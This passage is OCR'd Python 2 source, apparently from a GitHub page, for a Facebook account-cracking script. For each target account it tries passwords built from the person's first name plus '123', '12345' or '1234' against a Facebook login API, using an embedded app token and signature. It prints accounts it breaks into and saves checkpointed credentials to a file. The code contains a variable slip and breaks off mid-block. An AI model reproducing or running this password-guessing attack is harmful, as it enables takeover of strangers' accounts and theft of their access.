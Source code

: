 			q = json.load(data)
			if 'access_token' in q:
				print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass1 + ' 👽 ' + b['name']
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass1 + ' 👽 ' + b['name']
					cek = open("out/CP.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name'] + '123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass2 + ' 👽 ' + b['name']
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass2 + ' 👽 ' + b['name']
							cek = open("out/CP.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '12345'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass3 + ' 👽 ' + b['name']
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass3 + ' 👽 ' + b['name']
									cek = open("out/CP.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass4)
								else:
									pass4 = b['first_name'] + '1234'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass4 + ' 👽 ' + b['name']
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass4 + ' 👽 ' + b['name']
											cek = open("out/CP.txt", "a")